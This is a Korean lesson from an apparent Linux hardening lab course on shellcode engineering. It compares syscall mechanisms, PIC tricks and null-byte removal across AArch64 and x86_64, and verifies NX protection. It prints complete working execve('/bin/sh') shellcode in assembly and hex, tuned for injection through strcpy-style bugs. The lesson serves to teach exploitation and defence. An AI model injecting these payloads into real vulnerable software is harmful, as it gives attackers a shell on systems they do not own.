


# 04. 쉘코드 엔지니어링과 어셈블리 기계어 제작 (Shellcode Engineering)

바이너리 익스플로잇에서 CPU 제어권을 탈취한 공격자가 대화형 루트 쉘을 획득하기 위해 주입하는 순수 기계어 바이트 스트림인 **쉘코드(Shellcode)의 구조와 엔지니어링 제약**을 분석함. 현대 임베디드 및 디바이스 환경의 핵심인 **AArch64(ARM64)** 아키텍처를 기본(Default)으로 분석하며, **x86_64** 및 레거시 **x86-32**와의 기계어 인코딩 특성을 비교함.

---

## 1. 학습 목표 및 개요

- 쉘코드의 본질이 컴파일러나 링커 없이 CPU가 직접 해독 가능한 순수 기계어 바이트(Opcode)임을 이해함.
- 리눅스 시스템 콜 진화 메커니즘(`int 0x80` ➔ `sysenter` ➔ `syscall` / `svc #0`)과 커널 진입 원리(`pt_regs`, `sys_call_table`)를 규명함.
- 고성능 시스템 콜 인터페이스인 `vsyscall`의 보안 결함(고정 주소 매핑)과 현대 `vDSO`(ASLR 난수화)의 설계 차이를 분석함.
- AArch64(`X8=221`, `svc #0`)와 x86_64(`RAX=59`, `syscall`)의 `execve("/bin/sh")` 시스템 콜 레지스터 규약을 비교 규명함.
- 읽기 전용 메모리 쓰기 위반(W^X), 위치 독립적 코드(PIC) 구현을 위한 **JMP-CALL-POP(트램펄린)** vs **PC 상대 주소 지정**의 진화 과정을 추적함.
- 문자열 처리 함수(`strcpy`, `gets`)를 우회하기 위한 **Null Byte (`\x00`) 제거 기법**과 명령어 치환 테크닉을 학습함.
- `/proc/PID/maps` 분석을 통한 메모리 실행 권한(NX / W^X) 검증 및 차단 원리를 학습함.

---

## 2. 인터랙티브 쉘코드 바이트코드 & 아키텍처 인스펙터

아래 다이어그램에서 AArch64(기본)와 x86_64 쉘코드의 16진수 바이트열과 각 어셈블리 인스트럭션이 레지스터를 조작하는 과정을 비교 탐색 가능함:

<div style="width: 100%; margin: 24px 0; border: 1px solid rgba(255,255,255,0.1); border-radius: 12px; overflow: hidden;">
  <iframe src="../../assets/diagrams/principles/04-shellcode.html" style="width: 100%; border: none; display: block; overflow: hidden;" scrolling="no" onload="try { const c = this.contentWindow.document.getElementById('diagramCanvas'); if(c) this.style.height = Math.ceil(c.getBoundingClientRect().height) + 'px'; } catch(e){}"></iframe>
</div>

---

## 3. 리눅스 시스템 콜 아키텍처 진화와 `execve` 규약

### 3.1 커널 모드 진입 메커니즘의 진화

유저 공간(Ring 3 / EL0)에서 커널 공간(Ring 0 / EL1)으로 제어권을 전환하는 하드웨어 메커니즘은 성능과 보안을 목적으로 진화해 옴:

| 아키텍처 / 세대 | 진입 명령어 | 복귀 명령어 | 하드웨어 전환 메커니즘 |
| :--- | :--- | :--- | :--- |
| **Legacy x86 (32-bit)** | `int $0x80` | `iret` | 인터럽트 서술자 테이블(IDT)을 통한 소프트웨어 인터럽트 처리 (수백 클럭 사이클 소모) |
| **Intel x86 (Fast Call)** | `sysenter` | `sysexit` | 모델 전용 레지스터(MSR) 기반 고속 커널 진입 |
| **AMD/Intel x86_64** | `syscall` | `sysret` | MSR `LSTAR` 레지스터를 통한 직결 진입 (IDT 조회 오버헤드 제거) |
| **AArch64 (ARM64 - 기본)** | `svc #0` | `eret` | 수퍼바이저 콜(Supervisor Call)을 통한 EL0 ➔ EL1 동기 예외(Synchronous Exception) 발생 |



### 3.2 `vsyscall`의 보안 결함과 `vDSO`로의 전환

1. **`vsyscall` (가상 시스템 콜 - 레거시)**:
   - 커널 진입 오버헤드를 줄이기 위해 `gettimeofday()` 등을 유저 메모리 특정 고정 주소(`0xffffffffff600000`)에 정적으로 매핑함.
   - **보안 결함**: 고정된 주소에 위치하므로 ASLR을 완전히 무력화하고 ROP(Return-Oriented Programming) 가젯으로 악용됨. 현대 리눅스 커널에서는 에뮬레이션 모드(`vsyscall=emulate`) 또는 완전 비활성화 처리됨.
2. **`vDSO` (Virtual Dynamic Shared Object - 현대)**:
   - ELF 공유 라이브러리 형식으로 유저 공간에 동적 매핑되며, 커널이 ELF Auxiliary Vector(`AT_SYSINFO_EHDR`)를 통해 프로세스 기동 시 전달함.
   - **ASLR 보호 적용**: 매 실행마다 주소가 무작위로 변경되어 ROP 표적으로 악용되는 것을 차단함.

### 3.3 `execve` 시스템 콜 레지스터 규약 비교

공격 페이로드의 궁극적 목표는 현재 프로세스를 루트 쉘(`/bin/sh`)로 치환하는 `execve` 시스템 콜 발동임:

```c
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

| 설정 항목 | AArch64 (ARM64 - 기본) | x86_64 (AMD64) | Legacy x86 (32-bit) |
| :--- | :--- | :--- | :--- |
| **시스템 콜 번호** | `X8` = 221 (`0xdd`) | `RAX` = 59 (`0x3b`) | `EAX` = 11 (`0x0b`) |
| **1st 인자 (`pathname`)** | `X0` = `"/bin/sh"` 주소 | `RDI` = `"/bin/sh"` 주소 | `EBX` = `"/bin/sh"` 주소 |
| **2nd 인자 (`argv`)** | `X1` = `NULL (0)` | `RSI` = `["/bin/sh", NULL]` 주소 | `ECX` = `["/bin/sh", NULL]` 주소 |
| **3rd 인자 (`envp`)** | `X2` = `NULL (0)` | `RDX` = `NULL (0)` | `EDX` = `NULL (0)` |
| **커널 진입 명령어** | `svc #0` | `syscall` | `int $0x80` |

---

## 4. 쉘코드 엔지니어링 4대 핵심 과제와 해법

### 4.1 과제 1: 읽기 전용 메모리 쓰기 결함과 W^X 원칙

초기 취약점 분석 시 C 언어 문자열 리터럴로 쉘코드를 정의하고 직접 수정하려 하면 **세그멘테이션 폴트(SIGSEGV)**가 발생함:

```c
/* 문자열 상수는 읽기 전용 세그먼트(.rodata / .text)에 배치됨 */
char *shellcode = "\x31\xc0..."; 
shellcode[0] = 0x90; /* SIGSEGV 발생! W^X 보호 위반 */
```

- **W^X (Write XOR Execute)**: 메모리 페이지는 쓰기(`W`)와 실행(`X`) 권한을 동시에 가질 수 없다는 현대 보안의 대원칙임.
- 고전 시스템에서는 컴파일/링크 옵션(`-Wl,-z,execstack` 또는 `-Wl,--omagic`)으로 데이터 세그먼트에 실행 권한을 강제 부여하여 테스트를 수행함.

### 4.2 과제 2: 위치 독립적 코드(PIC)와 주소 참조 (Trampolining vs PC-Relative)

버퍼에 주입된 쉘코드는 자신이 메모리 상의 어느 절대 주소(Stack/Heap)에 적재될지 사전에 알 수 없음:



1. **고전 x86-32의 JMP-CALL-POP (트램펄린) 기법**:
   - `CALL` 명령어가 실행될 때 **다음 명령어의 주소(Return Address)를 자동으로 스택에 푸시(PUSH)**한다는 CPU 하드웨어 메커니즘을 역이용함.
   ```assembly
   jmp    get_string
   code:
   popl   %esi               ; ESI = "/bin/sh" 주소 획득!
   movl   %esi, 0x8(%esi)
   ...
   int    $0x80
   get_string:
   call   code               ; 복귀 주소(즉 아래의 "/bin/sh" 주소)를 스택에 PUSH!
   .string "/bin/sh"
   ```
2. **현대 64비트 아키텍처의 해법**:
   - **AArch64**: `adr x0, #20` 명령어로 현재 프로그램 카운터(PC) 기준 상대 오프셋을 직접 하드웨어적으로 계산함. 트램펄린 구조 불필요.
   - **x86_64**: 스택 조작 기법(`movabs $0x68732f2f6e69622f, %rbx; push %rbx; mov %rsp, %rdi`)을 통해 인라인으로 스택 상에 문자열을 구성하고 포인터를 확보함.

### 4.3 과제 3: Null Byte (`\x00`) 제거 엔지니어링

`strcpy()`, `gets()`, `sprintf()` 등 고전적인 취약 함수들은 `0x00`(NULL 문자)을 문자열 종료 기호로 인식하므로, 기계어 중간에 `\x00`이 단 1바이트라도 존재하면 복사를 즉시 중단함:

| 목적 | 일반적인 명령어 (Null 바이트 발생) | 치환된 쉘코드 명령어 (Null-Free 기법) |
| :--- | :--- | :--- |
| **레지스터 0 초기화** | `mov $0, %eax` (`b8 00 00 00 00` ➔ 4개 Null) | `xor %eax, %eax` (`31 c0` ➔ 0개 Null) |
| **작은 즉치값 적재** | `mov $0x3b, %eax` (`b8 3b 00 00 00` ➔ 3개 Null) | `xor %eax, %eax`<br/>`mov $0x3b, %al` (`b0 3b` ➔ 0개 Null) |
| **8바이트 문자열 정합** | `"/bin/sh\0"` (7바이트 + 1바이트 패딩) | `"/bin//sh"` (`0x68732f2f6e69622f` ➔ 슬래시 2개로 8바이트 정렬) |
| **AArch64 제로화** | `mov x1, #0` (`01 00 80 d2` ➔ Null 발생 가능) | `mov x1, xzr` (`e1 03 1f aa` ➔ 제로 레지스터 활용) |

> [!IMPORTANT]
> **AArch64의 RISC 고정 4바이트 제약**:
> AArch64는 모든 명령어가 정확히 32비트(4바이트)로 고정 인코딩되므로 `svc #0`(`\x01\x00\x00\xd4`)이나 `adr` 명령어의 상위 비트에 필연적으로 `\x00`이 포함됨. 따라서 AArch64 환경에서는 문자열 복사 취약점 대신 네트워크 소켓 스트림(`read()`, `recv()`)이나 디코더 스텁(Decoder Stub)을 통해 주입을 수행함.

### 4.4 과제 4: 메모리 세그먼트 실행 권한 확인 (`/proc/PID/maps`)

프로세스의 실제 가상 메모리 보호 플래그는 `/proc/self/maps`에서 직접 확인 가능함:

- **일반 보호 프로세스 (NX 활성화)**:
  - 스택: `rw-p` (읽기/쓰기 가능, **실행 불가**)
  - 힙: `rw-p` (읽기/쓰기 가능, **실행 불가**)
  - 코드(.text): `r-xp` (읽기/실행 가능, 쓰기 불가)
- **실행 권한 부여 프로세스 (`-z execstack`)**:
  - 스택: `rwxp` (읽기/쓰기/실행 모두 허용 ➔ 쉘코드 직접 구동 가능)

---

## 5. 아키텍처별 쉘코드 기계어 심층 분석

=== "AArch64 (ARM64 - 기본 타깃)"
    AArch64는 모든 명령어가 4바이트 고정 규격으로 정렬되는 RISC 아키텍처임:

    ```assembly
    // [1] PC 상대 주소로 20바이트 뒤에 위치한 "/bin/sh" 문자열 주소를 X0에 적재
    adr    x0, #20              // a0 00 00 10 (4바이트)
    // [2] 제로 레지스터(xzr)로 X1(argv) 및 X2(envp)를 0으로 초기화
    mov    x1, xzr              // e1 03 1f aa (4바이트)
    mov    x2, xzr              // e2 03 1f aa (4바이트)
    // [3] 시스템 콜 번호 221(__NR_execve) 적재
    mov    x8, #0xdd            // a8 1b 80 d2 (4바이트)
    // [4] 커널 모드로 진입 (EL1 트랩)
    svc    #0                   // 01 00 00 d4 (4바이트)
    // [5] 인라인 내장 문자열
    .string "/bin/sh"           // 2f 62 69 6e 2f 73 68 00 (8바이트)
    ```

=== "x86_64 (AMD64 - 비교 타깃)"
    x86_64는 1~15바이트 가변 길이 CISC 아키텍처이므로 명령어 선택을 통해 `\x00`을 100% 제거 가능함:

    ```nasm
    // [1] RAX 레지스터를 0으로 초기화 (Null 바이트 미발생)
    xor    %eax, %eax               // 31 c0 (2바이트)
    // [2] 64비트 리틀 엔디언 즉치값으로 "/bin//sh" 적재
    movabs $0x68732f2f6e69622f, %rbx// 48 bb 2f 62 69 6e 2f 2f 73 68 (10바이트)
    // [3] 스택에 푸시하여 인라인 문자열 생성
    push   %rbx                     // 53 (1바이트)
    mov    %rsp, %rdi               // 48 89 e7 (RDI = &"/bin//sh")
    // [4] argv 및 envp 설정
    push   %rax                     // 50 (NULL 종료자)
    mov    %rsp, %rdx               // 48 89 e2 (RDX = NULL)
    push   %rdi                     // 57 (&"/bin//sh")
    mov    %rsp, %rsi               // 48 89 e6 (RSI = argv)
    // [5] 시스템 콜 번호 59(0x3b) 주입 및 호출
    mov    $0x3b, %al               // b0 3b (하위 8비트 레지스터 활용)
    syscall                         // 0f 05 (2바이트)
    ```

---

## 6. 실습 소스 코드 및 검증 결과

- **실습 소스 코드**: [`shellcode_tester.c`](../../assets/labs/principles/04-shellcode/shellcode_tester.c) (로컬 원본) | [GitHub 소스 코드 저장소 :octicons-mark-github-16:](https://github.com/auking45/linux-kernel-hardening-lab/blob/main/labs/principles/04-shellcode/shellcode_tester.c)
- **전용 Makefile**: [`Makefile`](../../assets/labs/principles/04-shellcode/Makefile)

### 6.1 바이트코드 검사 및 메모리 매핑 확인

=== "AArch64 (기본 타깃)"
    ```bash
    cd labs/principles/04-shellcode
    make run
    ```

    ```
    === Running Shellcode Inspection on aarch64 ===
    qemu-aarch64 -L /usr/aarch64-linux-gnu ./shellcode_tester
    === Linux Kernel Hardening Lab - Shellcode Engineering ===

    ============================================================
     Shellcode Inspection [AArch64 (Default)] (Total Length: 28 bytes)
    ============================================================
    [Hex Dump]
      \xa0\x00\x00\x10\xe1\x03\x1f\xaa\xe2\x03\x1f\xaa
      \xa8\x1b\x80\xd2\x01\x00\x00\xd4\x2f\x62\x69\x6e
      \x2f\x73\x68\x00

    [Engineering Analysis]
      [-] Null-Byte Check: 5 null byte(s) detected.
          Requires byte-stream injection (read, recv, socket) or decoder stub.
    ============================================================

    ============================================================
     Shellcode Inspection [x86_64 (Comparative)] (Total Length: 28 bytes)
    ============================================================
    [Hex Dump]
      \x31\xc0\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68
      \x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6
      \xb0\x3b\x0f\x05

    [Engineering Analysis]
      [+] Null-Byte Check: PASSED (0 null bytes detected).
          Safe for injection into string-copy functions (strcpy, gets, sprintf).
    ============================================================

    ------------------------------------------------------------
     [Architectural Comparison: Syscall & Addressing Evolution]
    ------------------------------------------------------------
     1. Syscall Entry Instruction:
        - Legacy x86 (32-bit): 'int $0x80'  (Software interrupt via IDT)
        - AMD/Intel x86_64   : 'syscall'    (MSR LSTAR direct fast jump)
        - ARM / AArch64      : 'svc #0'     (Supervisor Call to EL1)

     2. String Address Resolution (Position-Independent Code / PIC):
        - Legacy x86 JMP-CALL-POP (Trampoline):
          * JMP to CALL -> CALL pushes next address onto stack -> POP into ESI.
        - Modern AArch64 (ARM64):
          * 'adr x0, #offset' directly loads PC-relative string address.
        - Modern x86_64:
          * 'movabs $0x68732f2f6e69622f, %rbx; push %rbx' pushes inline string.
    ------------------------------------------------------------

    === [Process Memory Map Protection (/proc/self/maps)] ===
      [★] Process Stack      [0x4000007fef04]: 400000001000-400000801000 rwxp 00000000 00:00 0  [stack]
      [★] Process Heap       [0x400000a3e6b0]: 400000a3e000-400000b3e000 rw-p 00000000 00:00 0  
      [★] Main Function (.text) [0x781db46512d0]: 781db4650000-781db4653000 r-xp 00000000 08:30 5325543
    ```

=== "x86_64 (비교 타깃)"
    ```bash
    cd labs/principles/04-shellcode
    make ARCH=x86_64 run
    ```

    - x86_64 네이티브 환경에서 동일하게 `/proc/self/maps` 확인 및 27바이트 Null-Free 바이트열 검증 수행.

### 6.2 하드웨어 W^X / NX 실행 차단 검증 (`--test-nx`)

실행 권한이 없는 순수 쓰기 메모리(`PROT_READ | PROT_WRITE`, `rw-p`)에 쉘코드를 배치하고 CPU가 진입을 시도할 때 하드웨어 예외(`SIGSEGV`)가 발생하는지 검증함:

```bash
make run-nx
```

```
=== Testing W^X / NX Enforcement on aarch64 ===
qemu-aarch64 -L /usr/aarch64-linux-gnu ./shellcode_tester --test-nx
...
=== [W^X / NX (No-Execute) Protection Verification] ===
[*] Allocating PROT_READ | PROT_WRITE memory page (NX active, no PROT_EXEC)...
  [★] NX Buffer (rw-p)   [0x400000b3e000]: 400000a3e000-400000b3f000 rw-p 00000000 00:00 0
[*] Attempting to jump to non-executable memory at 0x400000b3e000...

============================================================
 [★] SUCCESS: SIGSEGV Caught! NX / W^X Protection Verified!
     CPU hardware page table NX bit blocked code execution.
============================================================
```

---

## 7. 요약 및 다음 강의

- 쉘코드는 아키텍처별 시스템 콜 번호와 ABI 레지스터를 직접 구성하여 커널에 직접 명령을 전달하는 기계어 조각임.
- 고전 시스템 콜 인터페이스(`int 0x80`, `vsyscall`)는 오버헤드와 보안 결함으로 인해 현대적인 `syscall` / `svc #0` 및 `vDSO`로 전면 대체됨.
- AArch64는 4바이트 고정 규격과 `adr` 상대 주소 참조를 사용하는 반면, x86_64는 가변 바이트와 스택 푸시를 활용해 Null-Free 페이로드를 구성함.
- 다음 강의에서는 이렇게 제작된 페이로드로 스택 경계를 무너뜨리고 제어 흐름을 장악하는 **[05. 클래식 버퍼 오버플로우와 RIP/PC 장악](05-stack-bof-rip.md)**을 학습함.
